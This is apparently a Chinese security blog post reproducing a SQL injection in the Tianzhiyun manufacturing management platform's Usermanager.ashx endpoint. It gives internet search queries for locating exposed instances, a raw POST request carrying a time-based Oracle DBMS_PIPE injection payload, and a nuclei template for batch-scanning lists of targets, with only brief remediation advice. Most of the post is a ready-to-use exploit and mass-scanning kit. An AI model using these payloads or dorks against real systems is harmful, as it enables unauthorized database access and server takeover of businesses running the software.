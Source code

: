 #  【漏洞复现 | 含批量POC】天智云智造管理平台 Usermanager.ashx SQL注入漏洞   
小明同学  小明信安   2024-06-10 16:37  
  
**0x01 免责声明**  
  
disclaimer  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。信息及工具收集于互联网，真实性及安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
**0x02 漏洞介绍**  
  
Vulnerability introduction  
  
    天智云智造管理平台是向中小型生产企业提供一站式平台服务，串联销售/采购/生产/质量/仓库等各个部门。对内可以节约成本，规范生产过程，实现质量追溯，实时跟踪生产及库存数据，提升管理水平。对外可以提升工厂的软实力，帮助企业更好的接单。   
  
    天智云智造管理平台/Ashx/Usermanager.ashx接口存在SQL注入漏洞，攻击者可以通过漏洞获取服务器内敏感信息导致信息泄露，甚至通过漏洞写入木马病毒获取服务器权限。  
  
**0x03 搜索语法**  
  
Search for syntax  
  
- Fofa：  
  
  
```
body="Ashx/Usermanager.ashx"
```  
  
- Hunter  
  
  
```
body="Ashx/Usermanager.ashx"
```  
  
- Quake  
  
  
```
body="Ashx/Usermanager.ashx"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSL5s5pPsEwhI5Vlwxb7Y1WM80qa9Rw35pgC50VWQyraJtZm7iayVYdKicEGB9a1MWibhiaWw4gn8nJJsQ/640?wx_fmt=png&from=appmsg "")  
  
**0x04 漏洞复现**  
  
Request packets  
  
- SQL延时注入2秒  
  
```
POST /Ashx/Usermanager.ashx HTTP/1.1
Host: your-ip
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded
 
type=LOGIN&username=11') AND 3603=DBMS_PIPE.RECEIVE_MESSAGE(CHR(66)||CHR(100)||CHR(72)||CHR(107),2) AND ('WTiY'='WTiY&pwd=1&vendor=

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSL5s5pPsEwhI5Vlwxb7Y1WMEgKXFRLoFhSYwKHCMIIywShUcIQkWQHzqCoCvRNqkQMCiaibzu2jzFMg/640?wx_fmt=png&from=appmsg "")  
- 延时4秒  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSL5s5pPsEwhI5Vlwxb7Y1WMiaG8rybRd4jr6BxZIdadmpRt9z638ibIibeYNgZncpbiajx8WYn2Kudibkg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 nuclei POC**  
  
nuclei POC  
  
- Nuclei 批量检测POC  
  
- 所用方法nuclei.exe -l 网址文件.txt -t POC.yaml  
  
```
id: tzyun_Usermanager_SQL_injected

info:
  name: tzyun_Usermanager_SQL_injected
  author: security-xm
  severity: high
  description: 天智云智造管理平台/Ashx/Usermanager.ashx存在SQL注入漏洞
  metadata:
    max-request: 1
    shodan-query: ""
    verified: true

http:
- raw:
  - |
    @timeout: 30s
    POST /Ashx/Usermanager.ashx HTTP/1.1
    Host: {{Hostname}}
    User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
    X-Requested-With: XMLHttpRequest
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 133

    type=LOGIN&username=11') AND 3603=DBMS_PIPE.RECEIVE_MESSAGE(CHR(66)||CHR(100)||CHR(72)||CHR(107),4) AND ('WTiY'='WTiY&pwd=1&vendor=

  redirects: true
  matchers-condition: and
  matchers:
  - id: 1
    type: dsl
    dsl:
    - 'duration>=4'

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSL5s5pPsEwhI5Vlwxb7Y1WMbibuVufkLRg6ic4b3bsWDuSGRklvvDKSuRdlJYJX0WAmCTmmq84UEqRg/640?wx_fmt=png&from=appmsg "")  
  
  
**0x07 修复建议**  
  
Remediation recommendations  
  
- 在Web应用防火墙中添加接口临时黑名单规则  
  
- 联系厂商打补丁或升级版本。  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/WfB6o4vicwSISMoBvibVByMUlExr9ibqmnwWAbwiaNjO1XPzIHNbfEIfgfSHeJqDSHqIw8pXKSdgic1vSia8HhntX5lw/640?wx_fmt=gif&from=appmsg "")  
  
  
